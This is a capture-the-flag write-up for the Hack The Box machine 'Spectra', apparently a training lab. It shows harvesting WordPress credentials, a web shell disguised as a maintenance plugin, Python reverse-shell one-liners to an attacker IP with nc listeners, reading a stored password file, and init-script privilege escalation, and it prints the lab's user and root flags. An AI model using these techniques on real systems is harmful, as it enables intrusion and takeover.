 ```yaml
---
title: "Spectra from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Spectra from HTB
`view-source:http://spectra.htb/testing/wp-config.php.save`
we get `mysql`credentials
```php
|// ** MySQL settings - You can get this info from your web host ** //|
||/** The name of the database for WordPress */|
||define( 'DB_NAME', 'dev' );|
|||
||/** MySQL database username */|
||define( 'DB_USER', 'devtest' );|
|||
||/** MySQL database password */|
||define( 'DB_PASSWORD', 'devteam01' );|
|||
||/** MySQL hostname */|
||define( 'DB_HOST', 'localhost' );|
|||
||/** Database Charset to use in creating database tables. */|
||define( 'DB_CHARSET', 'utf8' );|
|||
||/** The Database Collate type. Don't change this if in doubt. */|
||define( 'DB_COLLATE', '' );|
||
```
login with
>Administrator
>devteam01

Upload `php cmd`as a plugin
```php
cat wp-maintenance.php
<?php
/*
Plugin Name: WordPress Maintanance Plugin
Plugin URI: wordpress.org
Description: WordPress Maintenance Activities
Author: WordPress
Version: 1.0
Author URI: wordpress.org
*/
system($_GET["cmd"]);
?>

zip wp-maintenance.zip wp-maintenance.php
```
then upload it, activate it and see if it works by on this link
`http://spectra.htb/main/wp-content/plugins/wp-maintenance/wp-maintenance.php?cmd=id`
```bash
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```
now get `reverse shell`, `wget`didn't work so go to `revshells.com`to get reverse shell
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
this worked
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.229] 38550
$ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```
with `linpeas.sh`we get that `machine`runs on `chromeOS`
we also find something in `/etc/autologin/passwd`
```bash
$ cd /etc/autologin
cd /etc/autologin
$ ls
ls
passwd
$ cat passwd
cat passwd
SummerHereWeCome!!
```
It is password for one of the users.
```bash
ssh katie@10.10.10.229
(katie@10.10.10.229) Password:
katie@spectra ~ $
```
***
User Flag is: e89d27fe195e9114ffa72ba8913a6130
***
in `/etc/init/test.conf`add this `exec whoami > /tmp/help`
now read the file and if it shows that you are `root`insert `reverse shell code`
```python
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
and you will get to connection on `nc`
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.229] 38558
#
```
***
Root Flag is: d44519713b889d5e1f9e536d0c6df2fc
***
![screen](/assets/images/2024-09-03_00-31-30.png)
